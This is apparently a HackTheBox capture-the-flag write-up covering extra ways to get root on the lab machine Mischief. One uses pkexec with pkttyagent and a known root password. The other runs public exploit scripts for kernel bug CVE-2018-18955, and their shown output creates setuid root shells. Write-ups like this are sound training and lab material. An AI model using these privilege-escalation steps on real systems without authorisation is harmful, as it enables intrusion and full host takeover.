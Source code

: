 

# HTB: Mischief Additional Roots

#htb-mischief #hackthebox #ctf #cve-2018-18955 #policykit #polkit
#pkexec #pkttyagent #metasploit #msf-local Jan 8, 2019






[HTB: Mischief Additional Roots](#)




Since publishing my [write-up on
Mischief](/htb-mischief.md) from HackTheBox, I've learned
of two additional ways to privesc to root once I have access as loki.
The first is another method to get around the fact the `su` was blocked
on the host using PolicyKit with the root password. The second was to
take advantage of a kernel bug that was publicly released in November,
well after Mischief went live. I'll quickly show both those methods.

## PolicyKit

### Background

PolicyKit is software that's designed to be an alternative to `sudo`,
where instead of defining what can be run in a file on each host, it
provides an api that can be used by privileged programs to offer
services to unprivleged programs. I wasn't familiar with framework
before this example, but it seems that the components come standard on
many Linux distros (it is present on my daily Ubuntu 18.04 desktop).

Props to [fjv](https://www.hackthebox.eu/home/users/profile/66373) for
pointing this one out on the HTB forums.

### How It Works

In this case, I'll need two shells on Mischief, both as loki, and the
root password from loki's history file. Getting two shells is easy to
do, as I can just ssh in twice, or, better yet, ssh in and run `tmux`.

First, I'll need to get the pid of the bash process in the first
terminal:



    loki@Mischief:/dev/shm$ echo $$
    25923



Next, I'll start `pkttyagent` in the second terminal with the
`--process` flag. This flag lets me specify the pid of the process that
will be subject to this agent.



    loki@Mischief:/dev/shm$ pkttyagent --process 25923



On doing this, this terminal will just hang and wait to be contacted.
Back in the first terminal, I'll now run `pkexec` to start a process.
I'll pass in `--user root` to say I want to run as root, and `bash -i`
as the command I want to run:



    loki@Mischief:/dev/shm$ pkexec --user root bash -i



On doing that, the second window asks for root's password:



    ==== AUTHENTICATING FOR org.freedesktop.policykit.exec ===
    Authentication is needed to run `/bin/bash' as the super user
    Authenticating as: root
    Password: 



When I enter the correct password, it replies:



    ==== AUTHENTICATION COMPLETE ===



Back in the first window, I now have a root shell:



    root@Mischief:~# id         
    uid=0(root) gid=0(root) groups=0(root)



Here's the entier thing in action:

![](/img/mischief-pkexec-root.gif)

## CVE-2018-18955

[saket sourav](https://disqus.com/by/disqus_lGROGMGeNJ/) left a comment
on the [original Mischief post](/htb-mischief.md)
suggesting there was a kernel vulnerability. With a little researhc, I
figured out that he was likely referring to CVE-2018-18955.

To pull this off, I'll grab the code from here:
https://github.com/bcoles/kernel-exploits/tree/master/CVE-2018-18955.
There's also a Metasploit version available:



    msf > search 18955

    Matching Modules
    ================

       Name                                                       Disclosure Date  Rank   Check  Description
       ----                                                       ---------------  ----   -----  -----------
       exploit/linux/local/nested_namespace_idmap_limit_priv_esc  2018-11-15       great  Yes    Linux Nested User Namespace idmap Limit Local Privilege Escalation



But I'll go without Metasploit. First, I'll copy the files to target:



    root@kali:/opt/kernel-exploits/CVE-2018-18955# scp * loki@10.10.10.92:/dev/shm/
    loki@10.10.10.92's password: 
    exploit.cron.sh                                                                                                                                                                           100% 2303   113.8KB/s   00:00    
    exploit.dbus.sh                                                                                                                                                                           100% 3829   192.1KB/s   00:00    
    exploit.ldpreload.sh                                                                                                                                                                      100% 2017    95.0KB/s   00:00    
    exploit.polkit.sh                                                                                                                                                                         100% 2827   134.8KB/s   00:00    
    libsubuid.c                                                                                                                                                                               100%  351    17.2KB/s   00:00    
    rootshell.c                                                                                                                                                                               100%  143     7.0KB/s   00:00    
    subshell.c                                                                                                                                                                                100% 1604    76.9KB/s   00:00    
    subuid_shell.c   



Now I'll just run one of the sh scripts and I get root, in this case the
dbus variant:



    root@Mischief:/dev/shm# ./exploit.dbus.sh 
    [*] Compiling...
    [*] Creating /usr/share/dbus-1/system-services/org.subuid.Service.service...
    [.] starting
    [.] setting up namespace
    [~] done, namespace sandbox set up
    [.] mapping subordinate ids
    [.] subuid: 100000
    [.] subgid: 100000
    [~] done, mapped subordinate ids
    [.] executing subshell
    [*] Creating /etc/dbus-1/system.d/org.subuid.Service.conf...
    [.] starting
    [.] setting up namespace
    [~] done, namespace sandbox set up
    [.] mapping subordinate ids
    [.] subuid: 100000
    [.] subgid: 100000
    [~] done, mapped subordinate ids
    [.] executing subshell
    [*] Launching dbus service...
    Error org.freedesktop.DBus.Error.NoReply: Did not receive a reply. Possible causes include: the remote application did not send a reply, the message bus security policy blocked the reply, the reply timeout expired, or the network connection was broken.
    [+] Success:
    -rwsrwxr-x 1 root root 8384 Jan  8 20:37 /tmp/sh
    [*] Cleaning up...
    [*] Launching root shell: /tmp/sh
    root@Mischief:/dev/shm# id
    uid=0(root) gid=0(root) groups=0(root),1004(loki)
    root@Mischief:/dev/shm# cat /root/root.txt 
    The flag is not here, get a shell to find it!



The different sh scripts just take advantage of different mechanisms to
hit the same vulnerability. Each one creates a setuid shell as `/tmp/sh`
owned by root. It's a good idea to clean that file up once you have a
root shell.

I was able to get three of the four to work (the cron one makes you wait
what feels like forever). If you do try to run more than one, just note
that you need to clean up the `/tmp/sh` file before trying the next one,
or the script will fail.

`exploit.ldpreload.sh`:



    loki@Mischief:/dev/shm$ ./exploit.ldpreload.sh 
    [*] Compiling...
    [*] Adding libsubuid.so to /etc/ld.so.preload...
    [.] starting
    [.] setting up namespace
    [~] done, namespace sandbox set up
    [.] mapping subordinate ids
    [.] subuid: 165536
    [.] subgid: 165536
    [~] done, mapped subordinate ids
    [.] executing subshell
    [+] Success:
    -rwsrwxr-x 1 root root 8384 Jan  8 20:41 /tmp/sh
    [*] Cleaning up...
    [*] Launching root shell: /tmp/sh
    root@Mischief:/dev/shm#



`exploit.cron.sh`:



    loki@Mischief:/dev/shm$ ./exploit.cron.sh 
    [*] Compiling...
    [*] Writing payload to /tmp/payload...
    [*] Adding cron job... (wait a minute)
    [.] starting
    [.] setting up namespace
    [~] done, namespace sandbox set up
    [.] mapping subordinate ids
    [.] subuid: 165536
    [.] subgid: 165536
    [~] done, mapped subordinate ids
    [.] executing subshell
    [+] Success:
    -rwsrwxr-x 1 root root 8384 Jan  8 20:42 /tmp/sh
    [*] Cleaning up...
    [*] Launching root shell: /tmp/sh
    root@Mischief:/dev/shm# 



I'm not sure why the polkit script didn't work, but I didn't put much
time into it. It is interesting to see PolicyKit utilized for the second
time today.





